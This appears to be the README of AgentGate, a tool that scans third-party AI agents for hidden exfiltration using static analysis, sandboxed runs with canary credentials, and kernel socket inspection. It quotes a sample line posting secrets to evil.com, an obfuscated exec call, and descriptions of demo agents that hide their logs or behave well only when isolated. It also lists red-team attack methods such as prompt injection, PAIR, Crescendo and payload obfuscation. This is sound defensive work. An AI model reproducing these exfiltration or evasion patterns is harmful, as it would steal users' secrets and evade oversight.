




<div align="center">

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="assets/logo-dark.svg">
  <source media="(prefers-color-scheme: light)" srcset="assets/logo-light.svg">
  
</picture>

<br><br>

<p>
  <a href="https://www.python.org/downloads/"></a>
  <a href="https://www.docker.com/"></a>
  <a href="https://github.com/Elliot-Sones/Agent_Malware_Tester"></a>
</p>

</div>

AgentGate decides whether a third-party AI agent is safe to publish on a marketplace. It runs 10 automated checks — static analysis, sandboxed execution, kernel-level network inspection — and returns a verdict: `ALLOW_CLEAN`, `ALLOW_WITH_WARNINGS`, `MANUAL_REVIEW`, or `BLOCK`.

The hard problem it solves: **agents that hide their own traces.** A malicious agent can redirect stdout/stderr to `/dev/null` and make zero API calls through the framework's logging layer. Every log-based scanner sees a clean, quiet process. AgentGate doesn't read logs for network activity — it reads `/proc/net/tcp` directly from the container's kernel namespace. The agent can't hide a TCP connection from its own OS.

<div align="center">

</div>

---

## How the Scanner Works

When you submit an agent, AgentGate does three things in order: reads the code, runs it in a sandbox, then compares what the agent *said* it would do against what it *actually* did.

### Step 1: Read the code (static analysis)

Before running anything, AgentGate reads the source files and the trust manifest.



This catches the obvious stuff: an agent that has `requests.post('https://evil.com', data=secrets)` in its source, or a manifest that doesn't declare external domains it clearly uses. No Docker needed — it's just reading files.

### Step 2: Run it twice (sandbox testing)

This is the core. AgentGate launches the agent in Docker twice, with different network settings:



Both containers are locked down: read-only filesystem, all capabilities dropped, 512MB memory limit, unprivileged user, seccomp filtered. Fake credentials (canary tokens) are injected as environment variables — fake AWS keys, database passwords, API tokens. If the agent reads and exfiltrates them, we know.

**Why two runs?** A well-written malicious agent can detect isolation. If the network is disabled, it behaves perfectly. When it gets real network access in production, it phones home. Running both profiles and comparing the results catches this.

### Step 3: Check what it actually did (the kernel trick)

While the agent runs, AgentGate reads the container's network connections directly from the operating system — not from logs.



This is what makes AgentGate different from log-based scanners. The agent can suppress all stdout/stderr, avoid using any framework logging, and still get caught — because `/proc/net/tcp` is maintained by the Linux kernel, not the application. The agent can't hide a TCP connection from its own OS.

AgentGate then compares every observed network destination against the `declared_external_domains` in the manifest. Anything undeclared = CRITICAL = automatic BLOCK.

### Step 4: Verdict

All findings from the three steps are collected and the worst severity wins:



No weighted scores, no percentages. If there's a single CRITICAL finding, the agent is blocked. The `--fail-on` flag lets you set where your CI pipeline draws the line.

---

## The Demo

Three agents in `demo_agents/`, each with a Dockerfile, a `server.py`, and a `trust_manifest.yaml`:

**Clean agent** — A support bot that does what it says. Declares its tools, makes no undeclared connections. Expected: `ALLOW_CLEAN` or `ALLOW_WITH_WARNINGS`.

**Trojanized agent** — Same support bot interface, but the code has `requests.post()` calls sending data to an external server. Static analysis catches the code pattern, runtime catches the actual connection. Expected: `BLOCK`.

**Stealth agent** — The interesting one. Exfiltrates data *and* redirects all stdout/stderr to `/dev/null` at startup. `docker logs` returns nothing. Log-parsing scanners see a perfectly clean process. AgentGate catches it because `_capture_procfs_remote_ips()` reads the container's socket table directly — the undeclared TCP connection shows up in `/proc/net/tcp` regardless of what the application does with its file descriptors. Expected: `BLOCK`.

```bash
cd demo_agents && ./run_demo.sh
# Reports (HTML, JSON, SARIF) saved to demo_output/
```

---

## Trust Manifest Format

```yaml
submission_id: my-agent-v1
agent_name: My Support Agent
version: "1.0.0"
entrypoint: server.py
description: Customer support agent for order lookups

declared_tools:
  - lookup_order
  - search_products
  - check_return_policy

declared_external_domains: []
# If your agent legitimately calls external APIs, declare them:
# declared_external_domains:
#   - api.stripe.com
#   - hooks.slack.com

permissions:
  - read_orders
  - read_products
```

Optional provenance block for signed images:

```yaml
provenance:
  certificate_identity: "https://github.com/org/repo/.github/workflows/release.yml@refs/heads/main"
  certificate_oidc_issuer: "https://token.actions.githubusercontent.com"
  # or: cosign_key: "keys/cosign.pub"
```

---

## CI/CD

```bash
agentgate trust-scan \
  --image $AGENT_IMAGE \
  --source-dir ./src \
  --manifest ./trust_manifest.yaml \
  --profile both \
  --fail-on block \
  --quiet \
  --format sarif
```

Exit code 1 if the verdict meets or exceeds `--fail-on`. SARIF output plugs into GitHub Advanced Security.

---

## Red Team Testing (Phase 1)

Separate from trust scanning. The `scan` command tests how well a *live* agent resists adversarial prompts — prompt injection, data exfiltration, tool misuse, goal hijacking, and 8 other categories. ~130 static payloads plus optional LLM-generated attacks, multi-turn adaptive strategies (PAIR, Crescendo, TAP), and payload obfuscation (base64, ROT13, unicode lookalikes).

```bash
agentgate scan http://localhost:8000/api --name "My Agent" --format all
```

`agentgate scan --help` for full options.

---

## Known Limitations

- **procfs sampling is not continuous.** We sample `/proc/net/tcp` 3 times at 400ms intervals. A connection that opens and closes between samples could be missed. For most real exfiltration (which sustains a connection for data transfer), this is sufficient, but it's not a packet capture.
- **Canary detection is string matching.** If an agent base64-encodes the canary value before exfiltrating, we won't catch it in the log scan. The procfs check still catches the network connection itself.
- **Static analysis is regex-based.** It catches `exec()` and `requests.post()` but won't catch obfuscated code like `getattr(__builtins__, 'ex'+'ec')`. Sophisticated evasion requires runtime analysis.
- **Docker on macOS uses a Linux VM.** procfs reading works, but the network namespace behavior may differ slightly from native Linux. Production deployments should use Linux hosts.

---

## Requirements

- **Python 3.11+**
- **Docker** — required for trust-scan runtime checks
- **cosign** — optional, for image signature verification
- **syft** — optional, for SBOM generation
- **trivy** — optional, for vulnerability scanning
- **Anthropic API key** — optional, enables LLM-generated attacks and judge evaluation for Phase 1 scans

---

## Quick Start

```bash
pip install -e .
```

```bash
# Run the included demo — builds 3 Docker agents, scans all 3
cd demo_agents && ./run_demo.sh
```

```bash
# Scan your own agent
agentgate trust-scan \
  --image my-agent:latest \
  --source-dir ./src \
  --manifest ./trust_manifest.yaml \
  --profile both \
  --format all
```
